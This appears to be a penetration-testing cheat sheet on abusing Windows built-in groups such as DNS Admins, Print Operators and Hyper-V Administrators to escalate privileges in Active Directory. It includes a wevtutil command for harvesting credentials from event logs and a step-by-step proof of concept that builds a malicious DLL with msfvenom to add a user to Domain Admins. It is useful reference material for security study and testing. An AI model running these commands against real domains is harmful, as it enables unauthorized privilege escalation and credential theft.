 # Built-in Groups Abuse

## **Backup Operators Group**

* Membership of this group grants its members the `SeBackup` and `SeRestore` privileges.
* This group also permits logging in locally to a domain controller.

***

## **Event Log Readers Group**

* Organizations may enable logging of process command lines to help defenders monitor and identify malicious behavior
* Members of this group may read these logs, potentially `finding user credentials`
* Search security logs containing the word `/user` with the **built-in utility** `wevtutil`: `wevtutil qe Security /rd:true /f:text | Select-String "/user"`

***

## **Server Operators Group**

* This group allows members to administer Windows servers without needing assignment of Domain Admin privileges.
* It is a very highly privileged group that can log in locally to servers, including Domain Controllers.
* Members can modify services, access SMB shares, and backup files.
* Membership of this group confers the powerful SeBackupPrivilege and SeRestorePrivilege privileges and the ability to control local services.

***

## **Print Operators Group**

* Members of this group are granted the `SeLoadDriver` privilege
* Members can log on to DCs locally and "trick" Windows into loading a malicious driver.
* This is a good privilege to perform privilege escalation (see above in the `SeLoadDriverPrivilege` section)
* If we issue the command `whoami /priv`, and don't see the `SeLoadDriverPrivilege` from an unelevated context, _we will need to bypass UAC_

***

## **Hyper-V Administrators Group**

* The Hyper-V Administrators group has full access to all Hyper-V features.
* If Domain Controllers have been virtualized, then the virtualization admins should be considered Domain Admins.
* They can easily create a clone of the live Domain Controller and mount the virtual disk offline to obtain the NTDS.dit file and extract NTLM password hashes for all users in the domain.
* Whenever possible, we can leverage CVE-2018-0952 or CVE-2019-0841 to gain SYSTEM privileges.
* Otherwise, we can try to take advantage of an application on the server that has installed a service running in the context of SYSTEM, which is startable by unprivileged users.

***

## **DNS Admins Group**

* Members can load a DLL on a DC, but do not have the necessary permissions to restart the DNS server.
* They can load a malicious DLL and wait for a reboot as a persistence mechanism.
* Loading a DLL will often result in the service crashing.
* A more reliable way to exploit this group is to use [cube0x0's exploit](https://cube0x0.github.io/Pocing-Beyond-DA/).
* PoC to add a member to the Domain Admins Group:
  1. Generate dll: `msfvenom -p windows/x64/exec cmd='net group "domain admins" TARGETUSER /add /domain' -f dll -o adduser.dll`
  2. Transfer the file to the target machine
  3. Load a custom DLL: `dnscmd.exe /config /serverlevelplugindll C:path\to\adduser.dll`
  4. CMD only: `sc stop dns`
  5. CMD only: `sc start dns`
  6. Confirm group membership: `net group "Domain Admins" /dom`

***

## **Account Operators Group**

* Members can modify non-protected accounts and groups in the domain.

***

## **Remote Desktop Users Group**

* Members are not given any useful permissions by default
* The main use of members of this group are to Login Through Remote Desktop Services and can move laterally using the RDP protocol.

***

## **Remote Management Users Group**

* Members can log on to DCs with PSRemoting
* This group is sometimes added to the local remote management group on non-DCs
